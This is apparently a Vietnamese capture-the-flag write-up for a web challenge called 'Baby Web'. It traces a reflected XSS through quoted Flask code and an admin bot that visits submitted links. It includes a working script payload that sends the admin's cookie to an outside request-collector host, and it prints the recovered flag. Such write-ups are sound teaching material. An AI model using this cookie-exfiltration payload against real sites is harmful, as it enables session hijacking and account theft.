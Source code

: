 # Baby Web

![image-20230521215733608](./assets/image-20230521215733608.png)

Giao diện trang web là một trang report and issue cho phép mình submit ticket

![image-20230521221817553](./assets/image-20230521221817553.png)

Tại [adminbot.py](dist/adminbot.py) thì mình biết được flag nằm ở trong cookie của admin

![image-20230521221708149](./assets/image-20230521221708149.png)

Trong file [server.py](dist/server.py)  thì mình biết được tại trang `/ticket` sử dụng param message để render ra trang web

```python
@app.route('/ticket', methods=['GET'])
def ticket_display():
    message = request.args.get('message')
    return render_template('ticket.html', message=message)
```

param được truyền vào mà không qua các bước kiểm tra  nên việc xảy ra lỗi XSS có khả năng rất cao

![image-20230521222017327](./assets/image-20230521222017327.png)

Sau khi submit ticket thì admin có truy cập vào đường link với message của mình gửi lên

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "GET":
        return render_template('index.html')
    
    message = request.form.get('message')
    if len(message) == 0:
        flash("Please enter a message")
        return render_template('index.html')

    link = f"/ticket?message={quote(message)}"

    # Admin vists the link here
    visit(BASE_URL, f"{BASE_URL}{link}")

    return redirect(link)
```

Submit ticket

```
<script>document.location="http://94bjfe2n.requestrepo.com?"+document.cookie</script>
```

![image-20230521222334060](./assets/image-20230521222334060.png)

![image-20230521222352283](./assets/image-20230521222352283.png)

`Flag: grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c}`